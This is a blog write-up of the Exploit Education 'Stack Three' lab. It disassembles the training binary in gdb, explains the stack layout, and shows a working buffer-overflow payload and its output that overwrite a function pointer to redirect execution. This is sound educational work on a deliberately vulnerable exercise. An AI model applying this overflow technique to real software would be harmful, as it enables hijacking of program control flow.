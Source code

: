 ```yaml
---
layout: post
title: Stack Three Writeup - Exploit Education Lab Exercise
categories: [security, binary-exploit, reverse-engineering, friday-gems]
tags: [security, binary-exploitation, friday-gems]
comments: true
description: A comprehensive writeup that helps to understand Stack Three exercise stack-overflow vulnerability with learning resources.
---
```


If you're learning and writing binary exploits, I would strongly recommend you to take [Architecture 1001: x86-64 Assembly](https://p.ost2.fyi/courses/course-v1:OpenSecurityTraining2+Arch1001_x86-64_Asm+2021_v1/course/) course by `Xeno Kovah`. They cover a wide variety of learning assembly instructions which will be really helpful to understand the exploits.

If you haven't done setting-up your lab, feel free to check out my previous article on [Exploit.education lab setup](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/06/exploit-education-lab-setup.html)

Previous Writeup: 
1. [Stack Zero Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/12/exploit-education-stack-zero-exercise-writeup.html)
2. [Stack One Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/20/exploit-education-stack-one-exercise-writeup.html)
3. [Stack Two Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/26/exploit-education-stack-two-exercise-writeup.html)

### Quick Overview

Similar to Stack Two, Stack Three exercise motive is to smash the stack to modify other variables in the stack to a `hex value` and technically overwrite `function pointer` in the stack. Similar to `gets` in Stack Zero, `strcpy` function is unsafe that doesn't have bounds check, it accepts memory address to write but doesn't care about overwriting other declared function pointer in stack. If you take closer look at the struct which isn't dynamically being allocated by `malloc` function, so probably the struct which contains both `char buffer[64]` and `volatile int *fp` function pointer stays in main stackframe. This overwritten function pointer will be further used to invoke in later part of the program.

### Disassemble

Disassembling the code will get you overall idea behind the stack-three code, One can use `gdb ./stack-three` to start debugging it in runtime.

1. `gdb ./stack-three`
2. Type `disassemble main` to get the disassembled code (assembly)

```assembly
   0x00000000004006b5 <+0>:     push   rbp
   0x00000000004006b6 <+1>:     mov    rbp,rsp
   0x00000000004006b9 <+4>:     sub    rsp,0x60
   0x00000000004006bd <+8>:     mov    DWORD PTR [rbp-0x54],edi
   0x00000000004006c0 <+11>:    mov    QWORD PTR [rbp-0x60],rsi
   0x00000000004006c4 <+15>:    mov    edi,0x4007d8
   0x00000000004006c9 <+20>:    call   0x4004f0 <puts@plt>
   0x00000000004006ce <+25>:    mov    QWORD PTR [rbp-0x10],0x0
   0x00000000004006d6 <+33>:    lea    rax,[rbp-0x50]
   0x00000000004006da <+37>:    mov    rdi,rax
   0x00000000004006dd <+40>:    call   0x4004e0 <gets@plt>
   0x00000000004006e2 <+45>:    mov    rax,QWORD PTR [rbp-0x10]
   0x00000000004006e6 <+49>:    test   rax,rax
   0x00000000004006e9 <+52>:    je     0x40071d <main+104>
   0x00000000004006eb <+54>:    mov    rax,QWORD PTR [rbp-0x10]
   0x00000000004006ef <+58>:    mov    rsi,rax
   0x00000000004006f2 <+61>:    mov    edi,0x400828
   0x00000000004006f7 <+66>:    mov    eax,0x0
   0x00000000004006fc <+71>:    call   0x4004d0 <printf@plt>
   0x0000000000400701 <+76>:    mov    rax,QWORD PTR [rip+0x200418]        # 0x600b20 <stdout>
   0x0000000000400708 <+83>:    mov    rdi,rax
   0x000000000040070b <+86>:    call   0x400500 <fflush@plt>
   0x0000000000400710 <+91>:    mov    rdx,QWORD PTR [rbp-0x10]
   0x0000000000400714 <+95>:    mov    eax,0x0
   0x0000000000400719 <+100>:   call   rdx
   0x000000000040071b <+102>:   jmp    0x400727 <main+114>
   0x000000000040071d <+104>:   mov    edi,0x400848
   0x0000000000400722 <+109>:   call   0x4004f0 <puts@plt>
   0x0000000000400727 <+114>:   mov    edi,0x0
   0x000000000040072c <+119>:   call   0x400510 <exit@plt>
```

If you carefully check the source, you might miss `complete_level` in the above disassembled code. You can go ahead and type `disassemble complete_level` in the gdb prompt,

```assembly
   0x000000000040069d <+0>:     push   rbp
   0x000000000040069e <+1>:     mov    rbp,rsp
   0x00000000004006a1 <+4>:     mov    edi,0x400790
   0x00000000004006a6 <+9>:     call   0x4004f0 <puts@plt>
   0x00000000004006ab <+14>:    mov    edi,0x0
   0x00000000004006b0 <+19>:    call   0x400510 <exit@plt>
```

Before taking a look at the code, if you disassembled the stack-three using gdb to view the assembly instruction, you may notice the puts, fflush, exit and gets function calls with parameters. So basically when you hit `r` in gdb without breakpoint,

1. Greet with `Welcome to phoenix/stack-three, brought to you by https://exploit.education` message via Puts (aka printf) method
3. Set `locals.fp` variable to `zero` or `0x00` in hex
4. Strcpy `locals.buffer` variable filled by `gets` function
5. Verify `locals.fp` is not `NULL` (cmd instruction)
6. Use `locals.fp` function pointer to invoke the corresponding function
5. Use puts(aka Printf) method to greet the user again with decision
6. Finally exits the program with `exit(0)` system call instead of returning to the main function invoker

### Primary Goal

The primary goal of this exercise is to make you familiar to overwrite function pointer with your own function pointer and therefore redirecting the program flow to achieve code execution within the binary/program. In ideal exploit world, you may overwrite the function pointer and redirect to `system` function call to achieve remote code execution and [this](https://securitylab.github.com/research/now-you-c-me-part-two/) blog post good example of reflecting this goal. In this exercise, you might want to overwrite the function pointer `locals.fp` with `complete_level` function memory address.

### Memory Allocation

As you see that the `locals` struct isn't dynamically allocated, they are allocated in the stack frame same as `main` function gets executes. The main function starts executing my pushing `$rbp` to stack at `0x7fffffffe660` and then `rsp` to `$rbp-0x60` (0x7fffffffe600) as expected the stack grows from top (higher memory address) to bottom (lower memory address).

![Stack Memory Layout from $rbp till $rsp](/assets/media/exploit-education-phoenix-stack-three-rbp.jpg)

You can see that `locals.buffer` (64 bytes) gets written at `$rbp-0x50` i.e `0x7fffffffe610` and `locals.fp` integer variable (4 bytes) at `rbp-0x10` i.e `0x7fffffffe650`. Now that you got the overall idea of the memory layout of the stack, you can now go ahead blow up the stack to overwrite `locals.fp`. If you play around with these memory layout behaviour, you may note that the char `buffer` variable writes from `$rbp-0x50` towards `$rbp-0x10`.

### Exploit

As previously discussed `locals.buffer` and `locals.fp` are allocated nearby each other in stack. So, if your input of 64 characters (example: 64 * 'A') wouldn't overrite the `locals.fp` variable, but if you do the same with 65 characters, you have succesfully overwritten `locals.fp` variable. However, our challenge is to overwrite `locals.fp` variable with `complete_level` function memory address. So, How do i get the `complete_level` function loaded memory address? Simple, use gdb disassemble `disassemble complete_level` command and note down the starting `rbp` address aka `0x40069d` (ignore the padding zeros).

If you try generating the payload simply  `(A * 64) + '\x40\x06\x9d'`, this would represent in the memory as `64 'A's & 0x40069d` 😵. Remember [Little Endianness](https://en.wikipedia.org/wiki/Endianness) ?, Yes Intel or AT&T syntax follows Little Endianness, so the representation should be in reverse order as `'A'*64 + '\x9d\x06\x40'`.

![Stack Memory Layout](/assets/media/exploit-education-phoenix-stack-three-gdb.jpg)

### Result

`> r <<< $(python -c "print('A'*64 + '\x9d\x06\x40')")` in gdb prompt.

```assembly
(gdb) r 
(gdb) r <<< $(python -c "print('A'*64 + '\x9d\x06\x40')")
Starting program: /opt/phoenix/amd64/stack-three <<< $(python -c "print('A'*64 + '\x9d\x06\x40')")
Welcome to phoenix/stack-three, brought to you by https://exploit.education
calling function pointer @ 0x40069d
Congratulations, you've finished phoenix/stack-three :-) Well done!
[Inferior 1 (process 375) exited normally]
Py
```

There you go! 🎉 You've officially `pwned` the `binary` and possibly you could control the program flow and may 
eventually perform remote code execution in the system. 🪲

![buffer-overflow-meme](/assets/media/what-does-that-mean-i-have-a-buffer-overflow-vulnerability.png)

### Source and Reference:

1. Stack Three Exercise: [Exploit Education](https://exploit.education/phoenix/stack-three/)
2. [Architecture 1001: x86-64 Assembly](https://p.ost2.fyi/courses/course-v1:OpenSecurityTraining2+Arch1001_x86-64_Asm+2021_v1/course/)

### Closing Note:

I hope this post is helpful for vulnerability researcher 🔍 & code reviewers, For bugs,hugs & discussion, DM in [Twitter](https://twitter.com/sshivasurya). Opinions are my own and not the views of my employer.

